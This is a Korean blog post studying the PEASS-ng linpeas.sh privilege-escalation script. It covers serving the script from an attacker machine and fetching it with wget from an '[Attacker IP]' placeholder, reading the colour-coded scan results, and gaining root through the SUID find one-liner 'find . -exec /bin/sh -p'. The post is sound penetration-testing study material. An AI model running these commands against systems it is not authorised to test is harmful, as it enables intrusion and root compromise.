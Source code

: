 ```yaml
---
layout: post
title: "PEASS-ng 공부"
date: 2025-09-17 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

PEASS-ng(Privilege Escalation Awesome Scripts SUITE new generation)는 권한 상승을 위한 정보를 자동으로 수집해 주는 스크립트 모음이다. 이 중 `linpeas.sh`는 리눅스 환경에서 실행되며 시스템의 설정 오류 · 커널 버전 · SUID 파일 · cron 작업 등 권한 상승에 이용될 수 있는 거의 모든 항목을 검사하고 결과를 색상으로 구분하여 보여준다.

수동으로 정보를 수집하는 과정을 자동화하여 분석 시간을 크게 단축시킨다.

---

### 2. 스크립트 실행 방법

`linpeas.sh` 스크립트를 공격 대상 서버로 옮긴 후 실행 권한을 부여하고 실행하는 과정이 필요하다.

#### **1. 스크립트 전송**
공격자 PC에서 웹 서버를 열고 대상 서버에서 `wget` 이나 `curl` 명령어로 스크립트를 다운로드하는 것이 일반적이다.

*   **공격자 PC:**
    ```bash
    # linpeas.sh 파일이 있는 디렉터리에서 실행
    python3 -m http.server 8000
    ```
*   **대상 서버:**
    ```bash
    # 쓰기 가능한 디렉터리(예: /tmp)로 이동
    cd /tmp
    wget http://[Attacker IP]:8000/linpeas.sh
    ```

#### **2. 스크립트 실행**
다운로드한 스크립트에 실행 권한을 부여하고 실행한다.
```bash
chmod +x linpeas.sh
./linpeas.sh
```

---

### 3. 결과 분석

`linpeas.sh`는 실행 결과에서 잠재적인 취약점 항목을 색상으로 강조하여 보여준다.

*   **빨간색 + 노란색 배경:** 95% 확률로 권한 상승에 이용 가능한 매우 중요한 항목.
*   **빨간색:** 흥미롭거나 주의 깊게 봐야 할 항목.
*   **노란색:** 추가적인 정보가 될 수 있는 항목.

[여기에 linpeas.sh 실행 결과 화면 스크린샷 삽입]

결과 보고서를 통해 SUID가 설정된 바이너리, 시스템 권한으로 실행되는 cron 작업 `sudo -l` 로 확인한 권한 등 권한 상승에 결정적인 단서가 될 수 있는 정보들을 한눈에 파악할 수 있다. 예를 들어 `(i) find results` 섹션에서 [GTFOBins](https://gtfobins.github.io/)에 등재된 SUID 파일을 발견했다면 이를 직접적인 공격 경로로 활용할 수 있다.

### 4. 사용 예시: SUID 바이너리를 이용한 권한 상승

이 예시는 `linpeas.sh`가 찾아낸 `SUID` 설정 파일을 이용하여 `root` 권한을 획득하는 과정을 보여준다. '정보 수집 -> 분석 -> 공격 실행'의 전체 흐름을 따른다.

#### **1. 정보 수집 (linpeas.sh)**
**`./linpeas.sh`** 를 실행하여 시스템을 스캔한다. 스캔 결과 중 `SUID/SGID Binaries` 섹션에서 권한 상승에 악용될 수 있는 파일 목록을 확인한다.

아래 예시에서는 **`/usr/bin/find`** 파일이 SUID 비트가 설정되어 있고 **GTFOBins**에 등재되어 있어 권한 상승에 이용 가능하다고 **빨간색+노란색 배경**으로 강조되어 있다.

[여기에 linpeas.sh가 find SUID를 발견한 결과 스크린샷 삽입]

#### **2. 분석 (GTFOBins)**
**GTFOBins**는 유닉스 바이너리를 이용한 권한 상승 및 다양한 기능 우회 방법을 모아놓은 리소스이다. `linpeas.sh`가 알려준 **`find`** 바이너리를 GTFOBins 사이트에서 검색한다.

GTFOBins는 `find`의 SUID를 이용하여 쉘을 실행하는 아래의 명령어를 제공한다.
```bash
find . -exec /bin/sh -p \; -quit
```

#### **3. 공격 실행 (권한 상승)**
획득한 일반 사용자 쉘에서 GTFOBins에서 찾은 명령어를 그대로 실행한다.

```bash
find . -exec /bin/sh -p \; -quit
# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
# whoami
root
```
*   명령어를 실행하면 프롬프트는 그대로지만 **`-p`** 옵션으로 인해 유효 사용자 ID(`euid`)가 `root`로 설정된 쉘이 실행된다.
*   **`id`** 명령어를 실행하면 `euid=0(root)`로 표시되어 권한이 상승했음을 확인할 수 있다.
*   **`whoami`** 명령어 역시 `root`를 반환한다.

이 과정을 통해 `linpeas.sh`로 수집한 정보를 바탕으로 분석하여 실제 `root` 권한을 획득하는 데 성공했다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **linpeas.sh 실행 결과 화면 스크린샷 제작**

1.  공격 대상 서버의 `/tmp` 디렉터리에 `linpeas.sh` 스크립트를 업로드하고 실행합니다.
2.  스크립트가 실행되면서 수많은 정보가 터미널에 출력됩니다. 스크롤을 올려 스크립트 시작 부분의 `LEGEND` (범례)가 보이도록 합니다.
3.  `LEGEND`와 함께, 아래 결과 중 **빨간색+노란색 배경**으로 표시된 중요 취약점(예: `Writable /etc/passwd file`) 또는 **빨간색**으로 표시된 SUID 파일 목록 등이 잘 보이도록 화면을 구성합니다.
4.  터미널 화면 전체를 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
6.  `LEGEND` 부분에 사각형 박스를 하나 그리고, 실제 결과에서 빨간색 또는 노란색으로 강조된 주요 취약점 항목에 또 다른 사각형 박스를 그려 하이라이트합니다.
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **find SUID 발견 및 권한 상승 과정 이미지 제작**

이 이미지는 `linpeas.sh`의 발견(원인)과 실제 권한 상승(결과)을 연결하여 보여준다.

1.  **`linpeas.sh` 결과 캡처:**
    *   `linpeas.sh`를 실행한 결과 중, `/usr/bin/find`가 SUID로 강조된 부분(빨간색+노란색 배경)이 잘 보이도록 화면을 구성하여 스크린샷을 찍어 **`linpeas_find_discovery.png`**로 저장한다.
2.  **권한 상승 터미널 캡처:**
    *   일반 사용자 쉘에서 `find . -exec /bin/sh -p \; -quit` 명령어를 입력하고, 이어서 `id`와 `whoami` 명령어를 실행한 결과(`euid=0(root)`, `root`)까지 모두 보이는 터미널 화면을 스크린샷으로 찍어 **`privesc_find_result.png`**로 저장한다.
3.  **최종 이미지 편집:**
    *   이미지 편집 프로그램에서 `linpeas_find_discovery.png`(왼쪽)와 `privesc_find_result.png`(오른쪽)를 나란히 배치한다.
    *   왼쪽 이미지에서는 `/usr/bin/find`가 강조된 라인 전체에 추가로 하이라이트를 적용한다.
    *   오른쪽 이미지에서는 실행한 `find` 명령어와, 그 결과로 나타난 `euid=0(root)` 및 `root` 출력 부분에 하이라이트를 적용한다.
    *   두 이미지 사이에 화살표를 추가하여 `linpeas.sh`의 발견이 실제 권한 상승으로 이어졌음을 명확히 보여준다.
    *   수정된 이미지를 게시글에 삽입한다.